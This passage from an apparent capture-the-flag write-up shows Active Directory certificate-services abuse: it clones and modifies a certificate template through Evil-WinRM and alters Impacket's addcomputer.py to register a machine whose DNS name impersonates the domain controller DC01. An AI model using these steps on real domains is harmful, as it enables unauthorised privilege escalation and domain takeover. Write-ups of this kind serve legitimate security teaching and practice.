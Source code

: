 ```
displayname : OCSP Response Signing
displayname : Kerberos Authentication
displayname : Coder-WebServer  

```

There’s a bunch, but Computer seems like the one to copy from. I’ll export it to a JSON file:

```
*Evil-WinRM* PS C:\programdata> Export-ADCSTemplate -displayName Computer > computer.json

```

Now I can read that back in, and change that flag:

```
*Evil-WinRM* PS C:\programdata> $computer = cat computer.json -raw | ConvertFrom-Json
*Evil-WinRM* PS C:\programdata> $computer.'msPKI-Enrollment-Flag' = 0x80000
*Evil-WinRM* PS C:\programdata> $computer | ConvertTo-Json | Set-Content computer-mod.json

```

Now I create the template:

```
*Evil-WinRM* PS C:\programdata> New-ADCSTemplate -DisplayName oxdf -Publish -JSON (cat computer-mod.json -raw)

```

#### Create Malicious Machine Object

[Impacket](https://github.com/SecureAuthCorp/impacket) has a script to add a computer object to a domain, but it doesn’t by default give the user control over the DNS name. I’ll make a copy of that script:

```

oxdf@hacky$ which addcomputer.py 
/home/oxdf/.local/bin/addcomputer.py
oxdf@hacky$ cp ~/.local/bin/addcomputer.py addcomputer.py

```

The string `dns` shows up at line 229:

```

oxdf@hacky$ cat addcomputer.py | grep -n dns
229:                    'dnsHostName': '%s.%s' % (computerHostname, self.__domain),

```

I’ll change the script so that the DNS hostname is always DC01:

```

                ucd = {
                    'dnsHostName': '%s.%s' % ('DC01', self.__domain),
                    'userAccountControl': 0x1000,
                    'servicePrincipalName': spns,
                    'sAMAccountName': self.__computerName,
                    'unicodePwd': ('"%s"' % self.__computerPassword).encode('utf-16-le')
                }

```
